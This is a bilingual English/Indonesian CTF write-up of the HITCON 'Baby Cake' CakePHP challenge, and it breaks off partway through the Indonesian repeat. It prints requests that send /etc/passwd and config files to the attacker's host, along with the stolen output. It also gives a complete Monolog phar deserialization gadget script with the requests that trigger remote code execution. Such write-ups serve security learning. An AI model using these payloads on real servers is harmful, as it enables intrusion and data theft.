

# Baby Cake
---
**Points:** 400 | **Solves:** 4/1789 | **Category:** Web


Get the shell plz!!!!! 13.230.134.135

Author: orange

Hint: This is not related to SSRF



---

[Bahasa Indonesia](#bahasa-indonesia)

## English

### TL;DR
- We can access arbitrary URL with HTTP Client in the given Cake PHP web and the cache will be stored in `body.cache` and `headers.cache` files if the method used is GET.
- Besides GET, we can use other method such as POST with data from `getQuery('data')`.
- In the internal implementation of `\Cake\Http\Client\Request`, if the data is an array, it will be processed with `Cake\Http\FormData`.
- In `Cake\Http\FormData` there is an implementation of CURLOPT_SAFE_UPLOAD-like, where `value` starting with `@` will be uploaded from the local system (Local File Disclosure).
- We can control the parameter of `file_get_contents` in `Cake\Http\FormData` so we can use `phar://` with the payload from `body.cache` for implicit unserialization.
- We can do PHP Object Injection with available gadgets to do Remote Code Execution; for example, by using `Monolog` vendor.

### Detailed Steps
A difficult 'baby' problem with only 4 teams solve it. The web is made with Cake PHP and we got the [source code](baby_cake.tgz). Our goal is to get the shell.

The main logic of the web application is in `src/Controller/PagesController.php`.

```php
<?php

namespace App\Controller;
use Cake\Core\Configure;
use Cake\Http\Client;
use Cake\Http\Exception\ForbiddenException;
use Cake\Http\Exception\NotFoundException;
use Cake\View\Exception\MissingTemplateException;

class DymmyResponse {
    function __construct($headers, $body) {
        $this->headers = $headers;
        $this->body = $body;
    }
}

class PagesController extends AppController {

    private function httpclient($method, $url, $headers, $data) {
        $options = [
            'headers' => $headers, 
            'timeout' => 10
        ];

        $http = new Client();
        return $http->$method($url, $data, $options);
    }

    private function back() {
        return $this->render('pages');
    }

    private function _cache_dir($key){
        $ip = $this->request->getEnv('REMOTE_ADDR');
        $index = sprintf('mycache/%s/%s/', $ip, $key);
        return CACHE . $index;
    }

    private function cache_set($key, $response) {
        $cache_dir = $this->_cache_dir($key);
        if ( !file_exists($cache_dir) ) {
            mkdir($cache_dir, 0700, true);
            file_put_contents($cache_dir . "body.cache", $response->body);
            file_put_contents($cache_dir . "headers.cache", serialize($response->headers));
        }
    }

    private function cache_get($key) {
        $cache_dir = $this->_cache_dir($key);
        if (file_exists($cache_dir)) {
            $body   = file_get_contents($cache_dir . "/body.cache");
            $headers = file_get_contents($cache_dir . "/headers.cache");
            
            $body = "<!-- from cache -->\n" . $body;
            $headers = unserialize($headers);
            return new DymmyResponse($headers, $body);
        } else {
            return null;
        }
    }

    public function display(...$path) {    
        $request  = $this->request;
        $data = $request->getQuery('data');
        $url  = $request->getQuery('url');
        if (strlen($url) == 0) 
            return $this->back();

        $scheme = strtolower( parse_url($url, PHP_URL_SCHEME) );
        if (strlen($scheme) == 0 || !in_array($scheme, ['http', 'https']))
            return $this->back();

        $method = strtolower( $request->getMethod() );
        if ( !in_array($method, ['get', 'post', 'put', 'delete', 'patch']) )
            return $this->back();


        $headers = [];
        foreach ($request->getHeaders() as $key => $value) {
            if (in_array( strtolower($key), ['host', 'connection', 'expect', 'content-length'] ))
                continue;
            if (count($value) == 0)
                continue;

            $headers[$key] = $value[0];
        }

        $key = md5($url);
        if ($method == 'get') {
            $response = $this->cache_get($key);
            if (!$response) {
                $response = $this->httpclient($method, $url, $headers, null);
                $this->cache_set($key, $response);                
            }
        } else {
            $response = $this->httpclient($method, $url, $headers, $data);
        }

        foreach ($response->headers as $key => $value) {
            if (strtolower($key) == 'content-type') {
                $this->response->type(array('type' => $value));
                $this->response->type('type');
                continue;
            }
            $this->response->withHeader($key, $value);
        }

        $this->response->body($response->body);
        return $this->response;
    }
}
```

When a request is made on the web with the GET method with `?url=`, the web checks whether there is a cache already stored for the given URL. If not, the URL will be requested with internal HTTP Client and then the contents of the response body will be written to `body.cache` and the contents of the serialized headers (array) will be written in `headers.cache`. If the cache is present, the application will retrieve the cache contents directly. Cache is not used if the method used is other than GET.

Note that there is an `unserialize` call in `cache_get($key)` function but the parameter is from `header.cache` contents which is previously written using `serialize` with array as input so PHP Object Injection is not possible from here (unless there are bugs in PHP internal).

The idea is, since we can write arbitrary data to `body.cache`, if a file operation function with our controlled parameter is executed then we can use `phar://` wrapper to do PHP Object Injection with `body.cache` as the payload. It turns out that we can direct the application flow to `file_get_contents` with our own parameter in the Cake PHP internal!

To understand the exploit better, we will breakdown the steps as the flow from request to Remote Code Execution.

#### Passing Request Data

```php
        $request  = $this->request;
        $data = $request->getQuery('data');
        $url  = $request->getQuery('url');

        ...

        $method = strtolower( $request->getMethod() );
        if ( !in_array($method, ['get', 'post', 'put', 'delete', 'patch']) )
            return $this->back();

        ..

        $method = strtolower( $request->getMethod() );
        if ( !in_array($method, ['get', 'post', 'put', 'delete', 'patch']) )
            return $this->back();

        ...

        if ($method == 'get') {
            $response = $this->cache_get($key);
            if (!$response) {
                $response = $this->httpclient($method, $url, $headers, null);
                $this->cache_set($key, $response);                
            }
        } else {
            $response = $this->httpclient($method, $url, $headers, $data);
        }
```

The URL scheme and the method from us is filtered by the web application so we can't use other than `http://` and `https://` for scheme and other than GET/POST/PUT/DELETE/PATCh for method.

We can use POST/PUT/DELETE/PATCH so that `$response = $this->httpclient($method, $url, $headers, $data);` is called. We can set the `$data` variable using GET `?data=`.

```php
    private function httpclient($method, $url, $headers, $data) {
        $options = [
            'headers' => $headers, 
            'timeout' => 10
        ];

        $http = new Client();
        return $http->$method($url, $data, $options);
    }
```

The web uses `Cake\Http\Client` and call the method based on `$method` from us with `$url` and `$data` from us.

In this example, we will try to use POST method.

#### Processing POST Request

Looks at `vendor/cakephp/cakephp/src/Http/Client.php`.

```php
    /**
     * Default configuration for the client.
     *
     * @var array
     */
    protected $_defaultConfig = [
        'adapter' => 'Cake\Http\Client\Adapter\Stream',

    ...

    public function __construct($config = [])
    {
        $this->setConfig($config);

        $adapter = $this->_config['adapter'];
        $this->setConfig('adapter', null);
        if (is_string($adapter)) {
            $adapter = new $adapter();
        }
        $this->_adapter = $adapter;


    ...

    /**
     * Do a POST request.
     *
     * @param string $url The url or path you want to request.
     * @param mixed $data The post data you want to send.
     * @param array $options Additional options for the request.
     * @return \Cake\Http\Client\Response
     */
    public function post($url, $data = [], array $options = [])
    {
        $options = $this->_mergeOptions($options);
        $url = $this->buildUrl($url, [], $options);

        return $this->_doRequest(Request::METHOD_POST, $url, $data, $options);
    }

    ...

    /**
     * Helper method for doing non-GET requests.
     *
     * @param string $method HTTP method.
     * @param string $url URL to request.
     * @param mixed $data The request body.
     * @param array $options The options to use. Contains auth, proxy, etc.
     * @return \Cake\Http\Client\Response
     */
    protected function _doRequest($method, $url, $data, $options)
    {
        $request = $this->_createRequest(
            $method,
            $url,
            $data,
            $options
        );

        return $this->send($request, $options);
    }

    ...

    /**
     * Creates a new request object based on the parameters.
     *
     * @param string $method HTTP method name.
     * @param string $url The url including query string.
     * @param mixed $data The request body.
     * @param array $options The options to use. Contains auth, proxy, etc.
     * @return \Cake\Http\Client\Request
     */
    protected function _createRequest($method, $url, $data, $options)
    {
        $headers = isset($options['headers']) ? (array)$options['headers'] : [];
        if (isset($options['type'])) {
            $headers = array_merge($headers, $this->_typeHeaders($options['type']));
        }
        if (is_string($data) && !isset($headers['Content-Type']) && !isset($headers['content-type'])) {
            $headers['Content-Type'] = 'application/x-www-form-urlencoded';
        }

        $request = new Request($url, $method, $headers, $data);

    ...

    }

```

The data from us will be processed by `post($url, $data = [], array $options = [])` which is then passed to `_doRequest($method, $url, $data, $options)` which will create a `$request` object using `_createRequest($method, $ url, $data, $options)`. In this function, the object is created as `Cake\Http\Client\Request` (`new Request($url, $method, $headers, $data);`).

Next we have to look at the `vendor/cakephp/cakephp/src/Http/Client/Request.php` code.

```php
    /**
     * Constructor
     *
     * Provides backwards compatible defaults for some properties.
     *
     * @param string $url The request URL
     * @param string $method The HTTP method to use.
     * @param array $headers The HTTP headers to set.
     * @param array|string|null $data The request body to use.
     */
    public function __construct($url = '', $method = self::METHOD_GET, array $headers = [], $data = null)
    {
        $this->validateMethod($method);
        $this->method = $method;
        $this->uri = $this->createUri($url);
        $headers += [
            'Connection' => 'close',
            'User-Agent' => 'CakePHP'
        ];
        $this->addHeaders($headers);
        $this->body($data);
    }

    ...

    /**
     * Get/set the body/payload for the message.
     *
     * Array data will be serialized with Cake\Http\FormData,
     * and the content-type will be set.
     *
     * @param string|array|null $body The body for the request. Leave null for get
     * @return mixed Either $this or the body value.
     */
    public function body($body = null)
    {
        if ($body === null) {
            $body = $this->getBody();

            return $body ? $body->__toString() : '';
        }
        if (is_array($body)) {
            $formData = new FormData();
            $formData->addMany($body);
            $this->header('Content-Type', $formData->contentType());
            $body = (string)$formData;
        }
        $stream = new Stream('php://memory', 'rw');
        $stream->write($body);
        $this->stream = $stream;

        return $this;
    }
```

In the `body($body)` function, if `$body` is an array, then the data will be processed using `Cake\Http\FormData` with the call to `addMany(array $array)` function. Let's see what happens in this function in `vendor/cakephp/cakephp/src/Http/Client/FormData.php`.


```php
    /**
     * Add a new part to the data.
     *
     * The value for a part can be a string, array, int,
     * float, filehandle, or object implementing __toString()
     *
     * If the $value is an array, multiple parts will be added.
     * Files will be read from their current position and saved in memory.
     *
     * @param string|\Cake\Http\Client\FormData $name The name of the part to add,
     *   or the part data object.
     * @param mixed $value The value for the part.
     * @return $this
     */
    public function add($name, $value = null)
    {
        if (is_array($value)) {
            $this->addRecursive($name, $value);
        } elseif (is_resource($value)) {
            $this->addFile($name, $value);
        } elseif (is_string($value) && strlen($value) && $value[0] === '@') {
            trigger_error(
                'Using the @ syntax for file uploads is not safe and is deprecated. ' .
                'Instead you should use file handles.',
                E_USER_DEPRECATED
            );
            $this->addFile($name, $value);
        } elseif ($name instanceof FormDataPart && $value === null) {
            $this->_hasComplexPart = true;
            $this->_parts[] = $name;
        } else {
            $this->_parts[] = $this->newPart($name, $value);
        }

        return $this;
    }

    /**
     * Add multiple parts at once.
     *
     * Iterates the parameter and adds all the key/values.
     *
     * @param array $data Array of data to add.
     * @return $this
     */
    public function addMany(array $data)
    {
        foreach ($data as $name => $value) {
            $this->add($name, $value);
        }

        return $this;
    }

    /**
     * Add either a file reference (string starting with @)
     * or a file handle.
     *
     * @param string $name The name to use.
     * @param mixed $value Either a string filename, or a filehandle.
     * @return \Cake\Http\Client\FormDataPart
     */
    public function addFile($name, $value)
    {
        $this->_hasFile = true;

        $filename = false;
        $contentType = 'application/octet-stream';
        if (is_resource($value)) {
            $content = stream_get_contents($value);
            if (stream_is_local($value)) {
                $finfo = new finfo(FILEINFO_MIME);
                $metadata = stream_get_meta_data($value);
                $contentType = $finfo->file($metadata['uri']);
                $filename = basename($metadata['uri']);
            }
        } else {
            $finfo = new finfo(FILEINFO_MIME);
            $value = substr($value, 1);
            $filename = basename($value);
            $content = file_get_contents($value);
            $contentType = $finfo->file($value);
        }
        $part = $this->newPart($name, $content);
        $part->type($contentType);
        if ($filename) {
            $part->filename($filename);
        }
        $this->add($part);

        return $part;
    }
 ```

Execution in the `addMany(array $data)` function will iterate the array and then call  `add($name, $value)` for each item. In the `add($name, $value)` function, if `$value` is a string that starts with `@`, then `addFile($name, $value)` will be called.

In `addFile($name, $value)`, because `$value` is a string, `$value = substr($value, 1);` and `$content = file_get_contents($value);` will be executed. With this, since `$value` is tainted from `getQuery('data')`, we can control the parameter of `file_get_contents`!

#### Local File Disclosure

To test it, we can try to do Local File Disclosure. The 'Request' data created will be sent directly to the URL using `fopen` in `Cake\Http\Client\Adapter\Stream` so we can try to send a file to our IP.

The following is a request to send `/etc/passwd` to our IP.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/passwd
```

At our IP, we will get `/etc/passwd` from the server!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
orange:x:1001:1001:,,,:/home/orange:/bin/bash
```

We can also see that the Apache configuration use `000-default.conf` and the web directory is in `/var/www/html`.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/apache2/sites-enabled/000-default.conf
```

```
<VirtualHost *:80>
	...

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	...
</VirtualHost>
```

The attempt to get the flag from Local File Disclosure was unsuccessful. Therefore, we must do Remote Code Execution.

#### Remote Code Execution

By using the features in the web application, we can save the body content of our URL request response to `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(URL)/body.cache`.

The strategies that can be done are:

1. Create a payload to do PHP Object Injection from the available Classes.
2. Place the PHP Object Injection payload in a phar file, for example `exploit.phar` in our IP.
3. Download `http://IP/exploit.phar` from the web application so the cache will be stored in `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache`
4. Do POST request with data query to open `phar://` stream wrapper so unserialization will occurs.

For gadgets, here we will try to use `Monolog` with references from https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/1.

The following is the code to make the payload `exploit.phar` which will execute `system ('ls -alt')`.

```php
<?php

namespace Monolog\Handler
{
    class SyslogUdpHandler
    {
        protected $socket;
        function __construct($x)
        {
            $this->socket = $x;
        }
    }
    class BufferHandler
    {
        protected $handler;
        protected $bufferSize = -1;
        protected $buffer;
        # ($record['level'] < $this->level) == false
        protected $level = null;
        protected $initialized = true;
        # ($this->bufferLimit > 0 && $this->bufferSize === $this->bufferLimit) == false
        protected $bufferLimit = -1;
        protected $processors;
        function __construct($methods, $command)
        {
            $this->processors = $methods;
            $this->buffer = [$command];
            $this->handler = clone $this;
        }
    }
}

namespace{
    $cmd = "ls -alt";

    $obj = new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', 'system'],
            [$cmd, 'level' => null]
        )
    );

    $phar = new Phar('exploit.phar');
    $phar->startBuffering();
    $phar->addFromString('test', 'test');
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar->setMetadata($obj);
    $phar->stopBuffering();

}
```

First, try to access `exploit.phar` URL from the web application.

```
GET http://13.230.134.135/?url=http://IP/exploit.phar
```

Then, do POST request to open `phar://` stream with `exploit.phar` cache location as path.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@phar:///var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache
```

And then RCE is successfully done!

```
total 104
drwxr-xr-x  26 root root  1000 Oct 21 11:08 run
drwxrwxrwt   2 root root  4096 Oct 21 06:25 tmp
-rwsr-sr-x   1 root root  8568 Oct 18 19:53 read_flag
drwxr-xr-x  23 root root  4096 Oct 18 19:53 .
drwxr-xr-x  23 root root  4096 Oct 18 19:53 ..
drwx------   5 root root  4096 Oct 18 17:12 root
drwxr-xr-x  90 root root  4096 Oct 18 11:23 etc
dr-xr-xr-x  13 root root     0 Oct 16 07:57 sys
-r--------   1 root root    54 Oct 15 19:49 flag
drwxr-xr-x   4 root root  4096 Oct 15 19:41 home
drwxr-xr-x   3 root root  4096 Oct  9 06:07 boot
lrwxrwxrwx   1 root root    31 Oct  9 06:07 initrd.img -> boot/initrd.img-4.15.0-1023-aws
lrwxrwxrwx   1 root root    28 Oct  9 06:07 vmlinuz -> boot/vmlinuz-4.15.0-1023-aws
drwxr-xr-x   2 root root  4096 Oct  9 06:07 sbin
lrwxrwxrwx   1 root root    14 Oct  8 17:14 www -> /var/www/html/
drwxr-xr-x  14 root root  4096 Oct  8 17:13 var
drwxr-xr-x   5 root root  4096 Oct  8 17:06 snap
drwxr-xr-x  15 root root  2980 Oct  8 17:06 dev
dr-xr-xr-x 136 root root     0 Oct  8 17:06 proc
lrwxrwxrwx   1 root root    31 Sep 12 16:16 initrd.img.old -> boot/initrd.img-4.15.0-1021-aws
lrwxrwxrwx   1 root root    28 Sep 12 16:16 vmlinuz.old -> boot/vmlinuz-4.15.0-1021-aws
drwxr-xr-x  20 root root  4096 Sep 12 16:16 lib
drwx------   2 root root 16384 Sep 12 16:10 lost+found
drwxr-xr-x   2 root root  4096 Sep 12 15:59 bin
drwxr-xr-x   2 root root  4096 Sep 12 15:56 lib64
drwxr-xr-x  10 root root  4096 Sep 12 15:55 usr
drwxr-xr-x   2 root root  4096 Sep 12 15:55 media
drwxr-xr-x   2 root root  4096 Sep 12 15:55 opt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 mnt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 srv
```

We can't read `/flag` file because it can only be read by `root`. It seems that we need to read it by executing `/read_flag` which is a setuid binary. If `tty` is needed, we can perform reverse shell and spawn it. However, `tty` is not needed so the execution of `system('/ get_flag')` by modifying the previous payload will give us the flag.

Flag: **hitcon{smart_implementation_of_CURLOPT_SAFE_UPLOAD><}**

FYI, [Orange ](https://twitter.com/orange_8361) (the author) has found that `phar://` could `unserialize` objects internally since last year, before someone presented it at Black Hat USA 2018.

References:
- https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017
- https://blog.ripstech.com/2018/new-php-exploitation-technique/


## Bahasa Indonesia

### Rangkuman
- Kita dapat mengakses URL menggunakan HTTP Client dari web Cake PHP yang diberikan dan cache-nya akan disimpan dalam berkas `body.cache` dan `headers.cache` apabila method yang digunakan adalah GET.
- Selain GET, kita dapat melakukan request lain seperti POST pada URL dengan data dari `getQuery('data')`.
- Pada implementasi internal `\Cake\Http\Client\Request`, apabila data berupa array maka akan diproses dengan `Cake\Http\FormData`.
- Pada `Cake\Http\FormData` terdapat implementasi yang mirip dengan CURLOPT_SAFE_UPLOAD, di mana `value` yang berawalan `@` akan diunggah dari lokal (Local File Disclosure).
- Pembacaan berkas lokal menggunakan `file_get_contents` dengan string yang kita kontrol, memungkinkan kita menggunakan `phar://` dengan payload yang ada pada `body.cache` untuk unserialization secara implisit.
- Lakukan PHP Object Injection dengan gadget yang tersedia untuk melakukan Remote Code Execution, contohnya dengan menggunakan vendor `Monolog`.

### Langkah Detail
Sebuah soal 'baby web' yang sulit karena hanya 4 tim yang berhasil memecahkannya. Diberikan sebuah akses ke web yang dibuat dengan Cake PHP dan [source code](baby_cake.tgz). Tujuan kita adalah untuk mendapatkan akses shell.

Kode utama dari web terletak pada `src/Controller/PagesController.php`.

```php
<?php

namespace App\Controller;
use Cake\Core\Configure;
use Cake\Http\Client;
use Cake\Http\Exception\ForbiddenException;
use Cake\Http\Exception\NotFoundException;
use Cake\View\Exception\MissingTemplateException;

class DymmyResponse {
    function __construct($headers, $body) {
        $this->headers = $headers;
        $this->body = $body;
    }
}

class PagesController extends AppController {

    private function httpclient($method, $url, $headers, $data) {
        $options = [
            'headers' => $headers, 
            'timeout' => 10
        ];

        $http = new Client();
        return $http->$method($url, $data, $options);
    }

    private function back() {
        return $this->render('pages');
    }

    private function _cache_dir($key){
        $ip = $this->request->getEnv('REMOTE_ADDR');
        $index = sprintf('mycache/%s/%s/', $ip, $key);
        return CACHE . $index;
    }

    private function cache_set($key, $response) {
        $cache_dir = $this->_cache_dir($key);
        if ( !file_exists($cache_dir) ) {
            mkdir($cache_dir, 0700, true);
            file_put_contents($cache_dir . "body.cache", $response->body);
            file_put_contents($cache_dir . "headers.cache", serialize($response->headers));
        }
    }

    private function cache_get($key) {
        $cache_dir = $this->_cache_dir($key);
        if (file_exists($cache_dir)) {
            $body   = file_get_contents($cache_dir . "/body.cache");
            $headers = file_get_contents($cache_dir . "/headers.cache");
            
            $body = "<!-- from cache -->\n" . $body;
            $headers = unserialize($headers);
            return new DymmyResponse($headers, $body);
        } else {
            return null;
        }
    }

    public function display(...$path) {    
        $request  = $this->request;
        $data = $request->getQuery('data');
        $url  = $request->getQuery('url');
        if (strlen($url) == 0) 
            return $this->back();

        $scheme = strtolower( parse_url($url, PHP_URL_SCHEME) );
        if (strlen($scheme) == 0 || !in_array($scheme, ['http', 'https']))
            return $this->back();

        $method = strtolower( $request->getMethod() );
        if ( !in_array($method, ['get', 'post', 'put', 'delete', 'patch']) )
            return $this->back();


        $headers = [];
        foreach ($request->getHeaders() as $key => $value) {
            if (in_array( strtolower($key), ['host', 'connection', 'expect', 'content-length'] ))
                continue;
            if (count($value) == 0)
                continue;

            $headers[$key] = $value[0];
        }

        $key = md5($url);
        if ($method == 'get') {
            $response = $this->cache_get($key);
            if (!$response) {
                $response = $this->httpclient($method, $url, $headers, null);
                $this->cache_set($key, $response);                
            }
        } else {
            $response = $this->httpclient($method, $url, $headers, $data);
        }

        foreach ($response->headers as $key => $value) {
            if (strtolower($key) == 'content-type') {
                $this->response->type(array('type' => $value));
                $this->response->type('type');
                continue;
            }
            $this->response->withHeader($key, $value);
        }

        $this->response->body($response->body);
        return $this->response;
    }
}
```

Ketika request dilakukan pada URL dengan GET method, maka web akan memeriksa apakah ada cache-nya yang sudah tersimpan. Apabila belum, maka isi dari body akan ditulis ke `body.cache` dan isi dari headers (array) yang ter-serialisasi akan ditulis di `headers.cache`. Apabila sudah, maka web akan mengambil isi cache secara langsung. Cache tidak digunakan apabila request yang digunakan adalah selain GET.

Perhatikan walaupun terdapat `unserialize` ketika pembacaan cache, data yang dimasukkan adalah dari `headers.cache` yang sebelumnya ditulis menggunakan `serialize` yang isinya pasti berupa array sehingga PHP Object Injection tidak memungkinkan dari sini (kecuali terdapat bug pada internal PHP).

Kita dapat menulis data apa saja pada `body.cache`. Idenya adalah, apabila ada operasi berkas yang parameternya dapat kita kontrol sepenuhnya, kita dapat menggunakan `phar://` wrapper untu melakukan PHP Object Injection dengan payload yang ada pada `body.cache`. Dan ternyata kita dapat mengarahkan alur aplikasi ke `file_get_contents` dengan parameter yang kita kontrol di dalam internal Cake PHP!

Untuk memudahkan memahami exploit, akan dijabarkan alur aplikasi yang terjadi dari request hingga terjadi Remote Code Execution.

#### Passing Request Data

```php
        $request  = $this->request;
        $data = $request->getQuery('data');
        $url  = $request->getQuery('url');

        ...

        $scheme = strtolower( parse_url($url, PHP_URL_SCHEME) );
        if (strlen($scheme) == 0 || !in_array($scheme, ['http', 'https']))
            return $this->back();

         ..

        $method = strtolower( $request->getMethod() );
        if ( !in_array($method, ['get', 'post', 'put', 'delete', 'patch']) )
            return $this->back();

        ...

        if ($method == 'get') {
            $response = $this->cache_get($key);
            if (!$response) {
                $response = $this->httpclient($method, $url, $headers, null);
                $this->cache_set($key, $response);                
            }
        } else {
            $response = $this->httpclient($method, $url, $headers, $data);
        }
```

Skema pada URL dan method yang dimasukkan user difilter oleh web sehingga kita tidak dapat menggunakan skema selain `http://` dan `https://` dan juga tidak dapat menggunakan method selain GET/POST/PUT/DELETE/PATCH.

Kita dapat menggunakan POST/PUT/DELETE/PATCH agar `$response = $this->httpclient($method, $url, $headers, $data);` terpanggil. Variabel `$data` dapat kita atur menggunakan GET `?data=`.

```php
    private function httpclient($method, $url, $headers, $data) {
        $options = [
            'headers' => $headers, 
            'timeout' => 10
        ];

        $http = new Client();
        return $http->$method($url, $data, $options);
    }
```

Web menggunakan `Cake\Http\Client` dan memanggil method terkait dengan `$data` berasal dari kita. Sebagai contoh, di sini method yang digunakan adalah POST.

#### Processing POST Request

Lihat kode pada `vendor/cakephp/cakephp/src/Http/Client.php`.

```php
    /**
     * Default configuration for the client.
     *
     * @var array
     */
    protected $_defaultConfig = [
        'adapter' => 'Cake\Http\Client\Adapter\Stream',

    ...

    public function __construct($config = [])
    {
        $this->setConfig($config);

        $adapter = $this->_config['adapter'];
        $this->setConfig('adapter', null);
        if (is_string($adapter)) {
            $adapter = new $adapter();
        }
        $this->_adapter = $adapter;


    ...

    /**
     * Do a POST request.
     *
     * @param string $url The url or path you want to request.
     * @param mixed $data The post data you want to send.
     * @param array $options Additional options for the request.
     * @return \Cake\Http\Client\Response
     */
    public function post($url, $data = [], array $options = [])
    {
        $options = $this->_mergeOptions($options);
        $url = $this->buildUrl($url, [], $options);

        return $this->_doRequest(Request::METHOD_POST, $url, $data, $options);
    }

    ...

    /**
     * Helper method for doing non-GET requests.
     *
     * @param string $method HTTP method.
     * @param string $url URL to request.
     * @param mixed $data The request body.
     * @param array $options The options to use. Contains auth, proxy, etc.
     * @return \Cake\Http\Client\Response
     */
    protected function _doRequest($method, $url, $data, $options)
    {
        $request = $this->_createRequest(
            $method,
            $url,
            $data,
            $options
        );

        return $this->send($request, $options);
    }

    ...

    /**
     * Creates a new request object based on the parameters.
     *
     * @param string $method HTTP method name.
     * @param string $url The url including query string.
     * @param mixed $data The request body.
     * @param array $options The options to use. Contains auth, proxy, etc.
     * @return \Cake\Http\Client\Request
     */
    protected function _createRequest($method, $url, $data, $options)
    {
        $headers = isset($options['headers']) ? (array)$options['headers'] : [];
        if (isset($options['type'])) {
            $headers = array_merge($headers, $this->_typeHeaders($options['type']));
        }
        if (is_string($data) && !isset($headers['Content-Type']) && !isset($headers['content-type'])) {
            $headers['Content-Type'] = 'application/x-www-form-urlencoded';
        }

        $request = new Request($url, $method, $headers, $data);

    ...

    }

```

Data yang kita masukkan akan diproses oleh `post($url, $data = [], array $options = [])` yang kemudian di-pass ke `_doRequest($method, $url, $data, $options)` yang akan membuat objek `$request` menggunakan `_createRequest($method, $url, $data, $options)`. Pada fungsi tersebut, terdapat pembuatan objek menggunakan `Cake\Http\Client\Request` yang datanya berasal dari `$url` dan `$data` yang kita kontrol (`new Request($url, $method, $headers, $data);`).

Selanjutnya kita harus melihat kode `vendor/cakephp/cakephp/src/Http/Client/Request.php`.

```php
    /**
     * Constructor
     *
     * Provides backwards compatible defaults for some properties.
     *
     * @param string $url The request URL
     * @param string $method The HTTP method to use.
     * @param array $headers The HTTP headers to set.
     * @param array|string|null $data The request body to use.
     */
    public function __construct($url = '', $method = self::METHOD_GET, array $headers = [], $data = null)
    {
        $this->validateMethod($method);
        $this->method = $method;
        $this->uri = $this->createUri($url);
        $headers += [
            'Connection' => 'close',
            'User-Agent' => 'CakePHP'
        ];
        $this->addHeaders($headers);
        $this->body($data);
    }

    ...

    /**
     * Get/set the body/payload for the message.
     *
     * Array data will be serialized with Cake\Http\FormData,
     * and the content-type will be set.
     *
     * @param string|array|null $body The body for the request. Leave null for get
     * @return mixed Either $this or the body value.
     */
    public function body($body = null)
    {
        if ($body === null) {
            $body = $this->getBody();

            return $body ? $body->__toString() : '';
        }
        if (is_array($body)) {
            $formData = new FormData();
            $formData->addMany($body);
            $this->header('Content-Type', $formData->contentType());
            $body = (string)$formData;
        }
        $stream = new Stream('php://memory', 'rw');
        $stream->write($body);
        $this->stream = $stream;

        return $this;
    }
```

Pada fungsi `body($body)`, apabila `$body` adalah array, maka data akan diproses menggunakan `Cake\Http\FormData` dengan fungsi `addMany(array $array)`. Mari kita lihat apa yang terjadi pada fungsi tersebut di `vendor/cakephp/cakephp/src/Http/Client/FormData.php`.

```php
    /**
     * Add a new part to the data.
     *
     * The value for a part can be a string, array, int,
     * float, filehandle, or object implementing __toString()
     *
     * If the $value is an array, multiple parts will be added.
     * Files will be read from their current position and saved in memory.
     *
     * @param string|\Cake\Http\Client\FormData $name The name of the part to add,
     *   or the part data object.
     * @param mixed $value The value for the part.
     * @return $this
     */
    public function add($name, $value = null)
    {
        if (is_array($value)) {
